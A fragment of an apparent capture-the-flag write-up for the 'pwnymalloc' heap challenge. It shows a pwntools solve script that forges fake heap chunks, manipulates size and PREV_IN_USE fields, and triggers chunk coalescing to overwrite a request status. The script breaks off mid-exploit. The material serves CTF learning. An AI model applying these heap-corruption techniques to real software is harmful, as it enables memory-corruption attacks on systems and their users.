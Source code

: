 <figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption><p>writing at our fake chunk</p></figcaption></figure>

Now we can easily overflow into the our 2nd request chunk and overwrite the **request->status** bit to **REQUEST\_APPROVED**.

### Solve Script

{% tabs %}
{% tab title="solve.py" %}
```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF("./chal")
url,port = "pwnymalloc.chal.uiuc.tf", 1337

if args.REMOTE:
    p = remote(url,port, ssl=True)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p)

def option(n):
    p.clean()
    p.sendline(str(n).encode())

# Create a fake chunk inside this chunk, which indicates a size of 0x120 with PREV_IN_USE bit unset
option(3)
p.clean()
p.sendline(b'65')
p.clean()
p.sendline(b''.ljust(0x60, b'F') + p64(0x120) + p64(0) * 2)

# Create another fake chunk inside a new chunk, indicate the chunk size of the "freed" chunk
# being bigger than it actually is (0xb0), also setting PREV_IN_USE bit unset
# This is the trick to make the freed chunk point to a chunk in between the 2 chunks
# The vulnerability is the checking of the freed chunk's size
option(3)
p.clean()
p.sendline(b'100')
p.clean()
payload = b'A' * 0x58 + p64(0)*2 + b'A'*0x10 + p64(0xb0)[:7]
p.send(payload)

# coalesce the chunks (consolidate) This causes overlapping freed chunk to be in between my two created chunks
```